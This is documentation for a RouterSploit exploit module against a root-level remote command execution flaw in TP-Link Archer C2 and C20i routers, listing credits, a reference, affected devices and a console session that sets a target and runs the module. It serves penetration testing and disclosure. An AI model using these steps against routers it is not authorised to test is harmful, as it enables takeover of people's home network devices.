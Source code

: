 # TP-Link Archer C2 & C20i

## Description
Exploits TP-Link Archer C2 and Archer C20i remote code execution vulnerability that allows executing commands on operating system level with root privileges.

## Authors
* Michal Sajdak <michal.sajdak[at]securitum.pl> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://sekurak.pl/tp-link-root-bez-uwierzytelnienia-urzadzenia-archer-c20i-oraz-c2/](http://sekurak.pl/tp-link-root-bez-uwierzytelnienia-urzadzenia-archer-c20i-oraz-c2/)

## Vulnerable devices
* TP-Link Archer C2
* TP-Link Archer C20i

## Usage
```
rsf > use exploits/tplink/archer_c2_c20i_rce
rsf (TP-Link Archer C2 & C20i) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (TP-Link Archer C2 & C20i) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (TP-Link Archer C2 & C20i) > run
[*] Running module...
```
